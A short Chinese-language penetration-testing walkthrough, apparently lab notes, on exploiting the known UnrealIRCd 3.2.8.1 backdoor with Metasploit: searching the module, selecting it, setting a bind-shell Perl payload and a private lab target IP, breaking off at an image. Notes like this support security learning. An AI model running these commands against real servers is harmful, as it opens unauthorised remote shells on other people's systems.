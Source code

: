 
## 7、UnreallRCd后门漏洞

---

漏洞产生的原因：在2009年11月到2010年6月间分布于某些镜面站点的UnreallRCd，在DEBUG3_DOLOG_SYSTEM宏中包含外部引入的恶意代码，远程攻击者能够执行任意代码

1、在msf中搜索相关漏洞，命令如下

```bash
search unreal ircd
```

2、使用exploit/unix/irc/unreal_ircd_3281_backdoor，命令如下

```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
```

3、设置payload，命令如下

```bash
set payload payload/cmd/unix/bind_perl
```

4、设置靶机的IP，命令如下

```bash
set rhosts 192.168.23.136
```

​![image](assets/image-20230408142731-q18nwo1.png)​
